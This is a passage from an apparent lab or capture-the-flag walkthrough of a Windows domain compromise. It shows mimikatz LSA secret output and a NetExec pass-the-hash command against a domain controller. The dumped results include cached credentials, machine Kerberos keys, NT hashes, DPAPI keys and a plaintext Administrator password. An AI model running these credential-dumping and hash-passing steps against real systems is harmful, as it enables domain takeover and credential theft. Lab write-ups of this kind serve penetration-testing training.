2f 93 57 f3 c1 d9 51 41 d4 b1 c7 4b c7 b8 db e6 82 fc 86 1b 87 06 5d 0b 7c 36 df 5d 2b c4 ce 75 6e 0f 2f e1 c6 76 47 e3 62 05 30 b0 4e 43 55 4b 08
    NTLM:7cc2976125ae0c7775249f337b63c7a4
    SHA1:361548eec2af9ac00604bd4daa73a395b1e508c6

Secret  : DefaultPassword
cur/text: 9ze9wL0C!3

Secret  : DPAPI_SYSTEM
cur/hex : 01 00 00 00 d8 0e 11 10 67 7a ed 7c 1f ee 54 1e 98 3c d5 8b db 75 4c 37 60 bf c3 72 fd 58 cc 99 33 9d 6f 16 91 71 d8 a1 a4 08 e6 1f
    full: d80e1110677aed7c1fee541e983cd58bdb754c3760bfc372fd58cc99339d6f169171d8a1a408e61f
    m/u : d80e1110677aed7c1fee541e983cd58bdb754c37 / 60bfc372fd58cc99339d6f169171d8a1a408e61f
old/hex : 01 00 00 00 0c 00 62 f2 11 9b c5 7d 9f 23 74 f3 34 09 e2 ce 39 1d dc 9f a8 d0 d0 0a b7 72 2e 4a b7 d5 94 23 e0 ea 99 03 29 6b ed 63
    full: 0c0062f2119bc57d9f2374f33409e2ce391ddc9fa8d0d00ab7722e4ab7d59423e0ea9903296bed63
    m/u : 0c0062f2119bc57d9f2374f33409e2ce391ddc9f / a8d0d00ab7722e4ab7d59423e0ea9903296bed63

Secret  : NL$KM
cur/hex : d8 33 7f 7b a3 2c de 15 cf b4 9a 10 37 3f 6b a9 4e 49 46 70 57 27 e8 1e e8 a9 11 a8 1d ef 19 0c cc 43 92 f3 9c c7 51 1a 06 56 6d 60 da 73 22 74 81 ec b4 9f 69 fc 6a 8a c8 52 e6 f5 03 56 0d 59
old/hex : d8 33 7f 7b a3 2c de 15 cf b4 9a 10 37 3f 6b a9 4e 49 46 70 57 27 e8 1e e8 a9 11 a8 1d ef 19 0c cc 43 92 f3 9c c7 51 1a 06 56 6d 60 da 73 22 74 81 ec b4 9f 69 fc 6a 8a c8 52 e6 f5 03 56 0d 59

mimikatz #
```

Who holds this password?

**9ze9wL0C!3**



But we can assure that the credentials are from the DC:



```
┌──(root㉿kali-bello)-[/home/millycash/Downloads/Cybernetics/CVE-2023-6553]
└─# NetExec smb 10.9.15.10 -u 'Administrator' -H 'b519f7764f7672e6a4a77cba6fb8fcdf' --lsa 
SMB         10.9.15.10      445    COREDC           [*] Windows 10 / Server 2016 Build 14393 x64 (name:COREDC) (domain:core.cyber.local) (signing:True) (SMBv1:False)
SMB         10.9.15.10      445    COREDC           [+] core.cyber.local\Administrator:b519f7764f7672e6a4a77cba6fb8fcdf (Pwn3d!)
SMB         10.9.15.10      445    COREDC           [+] Dumping LSA secrets
SMB         10.9.15.10      445    COREDC           CYBER.LOCAL/Administrator:$DCC2$10240#Administrator#c145dcbd844f88264bdd35aafd17500f: (2024-06-19 03:20:56)
SMB         10.9.15.10      445    COREDC           core\COREDC$:aes256-cts-hmac-sha1-96:302ffdeede7035656f30f0c49fefbfb59da2f2d9266e71e45d6fb3efd9bc9343
SMB         10.9.15.10      445    COREDC           core\COREDC$:aes128-cts-hmac-sha1-96:e1ce3bb33cfb4ec7e00a42c5998910ac
SMB         10.9.15.10      445    COREDC           core\COREDC$:des-cbc-md5:8580ae98d662c83b
SMB         10.9.15.10      445    COREDC           core\COREDC$:plain_password_hex:b8b84dbfad1f1b5c9bec6f9908ff6c91fbf8ea5479019694bb562857d4efc4711e93d378ac57b78d60605d1a9bc9a6be6d58e41bb70d0deeff6c40a19c579b3edad75effe1e635a7c6e1efef9085815004b918aaa8f793b9e1226382838255eda6131361d0e8d39c6c032d03504ba9345d113100ce2a0515f386d87536c764e9d597a225ec522ceb0eebfafab610c32b5a922a10a529396d18232b8f035fad84b407a816aeefaab5c50c941d7bd26b8d64f1cd79fa0c0f07f008c17d394647ab97f2984f3cd405ff88a8d055fba43b4beb9f6fb8437187f6f5f68e0882d3583619232b669afd50409f96394e6f0d56da
SMB         10.9.15.10      445    COREDC           core\COREDC$:aad3b435b51404eeaad3b435b51404ee:fe6960a311fe7d4e0ca3a6763220a797:::
SMB         10.9.15.10      445    COREDC           cyber\Administrator:9ze9wL0C!3
SMB         10.9.15.10      445    COREDC           dpapi_machinekey:0xd80e1110677aed7c1fee541e983cd58bdb754c37
dpapi_userkey:0x60bfc372fd58cc99339d6f169171d8a1a408e61f
SMB         10.9.15.10      445    COREDC           NL$KM:d8337f7ba32cde15cfb49a10373f6ba94e4946705727e81ee8a911a81def190ccc4392f39cc7511a06566d60da73227481ecb49f69fc6a8ac852e6f503560d59
SMB         10.9.15.10      445    COREDC           [+] Dumped 9 LSA secrets to /root/.nxc/logs/COREDC_10.9.15.10_2024-06-19_220947.secrets and /root/.nxc/logs/COREDC_10.9.15.10_2024-06-19_220947.cached
```

Now we can officially move on to the CYDC!

&nbsp;

&nbsp;

&nbsp;

&nbsp;

&nbsp;

&nbsp;

&nbsp;